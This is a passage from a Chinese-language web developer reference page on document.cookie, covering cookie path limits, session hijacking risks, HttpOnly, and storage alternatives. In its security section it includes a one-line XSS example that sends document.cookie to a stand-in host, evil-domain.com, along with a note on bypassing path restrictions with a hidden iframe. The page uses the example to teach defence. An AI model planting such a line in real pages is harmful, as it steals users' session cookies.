路径限制并**不能**阻止从其他路径访问 cookie. 使用简单的 DOM 即可轻易地绕过限制 (比如创建一个指向限制路径的，隐藏的[iframe](/zh-CN/docs/Web/HTML/Element/iframe), 然后访问其 `contentDocument.cookie` 属性). 保护 cookie 不被非法访问的唯一方法是将它放在另一个域名/子域名之下，利用[同源策略](/zh-CN/docs/Web/Security/Same-origin_policy)保护其不被读取。

Web 应用程序通常使用 cookies 来标识用户身份及他们的登录会话。因此通过窃听这些 cookie，就可以劫持已登录用户的会话。窃听的 cookie 的常见方法包括社会工程和 XSS 攻击 -

```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

`HttpOnly` 属性可以阻止通过 javascript 访问 cookie，从而一定程度上遏制这类攻击。参见 [Cookies and Security](http://www.nczonline.net/blog/2009/05/12/cookies-and-security/).

## 备注

- 从 Firefox 2 起，有更好的客户端存储机制用以替代 cookie - [WHATWG DOM Storage](/zh-CN/docs/DOM/Storage).
- 你可以通过更新一个 cookie 的过期时间为 0 来删除一个 cookie。
- 请注意，更多/更大的 cookies 意味着每个请求都要包含更繁重的数据传输。如果您只是需要存储些 "client-only" 的数据，那么郑重建议您使用 [WHATWG DOM Storage](/zh-CN/docs/DOM/Storage).

## 规范

[DOM Level 2: HTMLDocument.cookie](http://www.w3.org/TR/DOM-Level-2-HTML/html.html#ID-8747038)

## 参见

- [HTTP cookies](/zh-CN/docs/Web_Development/HTTP_cookies)
- [Cookies](/zh-CN/docs/Code_snippets/Cookies) (Code snippets)

